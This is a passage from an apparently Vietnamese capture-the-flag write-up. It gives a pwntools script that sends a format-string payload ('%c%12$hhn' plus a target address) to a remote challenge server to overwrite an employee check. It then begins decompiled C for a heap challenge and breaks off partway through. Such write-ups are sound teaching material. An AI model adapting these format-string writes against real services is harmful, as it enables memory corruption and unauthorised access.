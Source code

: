 
nó check thằng emplyee , vậy ta chỉ cần thay đổi giá trị của nó là dc :v , lúc đầu kh nhìn thấy option 6 nên suy nghĩ thay đổi A-B-C gì đó các kiểu :>> 

![image](https://hackmd.io/_uploads/By5W0OOfyg.png)


script : 

```python
#!/usr/bin/python3

from pwn import *

context.binary = exe = ELF('./floormat_sale',checksec=False)


#p = process()
p = remote('floormatsale.ctf.intigriti.io', 1339)
#gdb.attach(p,gdbscript='''
#           b*0x00000000004013ca
#           b*0x00000000004013ed

#           ''')
input()
p.sendlineafter(b'choice:\r\n',b'6')
payload = b'%c%12$hhn'
payload = payload.ljust(16,b'a')
payload += p64(0x000000000040408C)
p.sendlineafter(b'Please enter your shipping address:\r\n',payload)
p.interactive()
```


![image](https://hackmd.io/_uploads/S1rvAO_MJe.png)


---------

## UAP


reverse : 

1 bài heap điển hình với các option  

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int choice; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v5; // [rsp+8h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  while ( 1 )
  {
    menu();
    __isoc99_scanf("%d", &choice);
    switch ( choice )
    {
      case 1:
        deploy_drone();
        break;
      case 2:
        retire_drone();
        break;
      case 3:
        start_drone_route();
        break;
```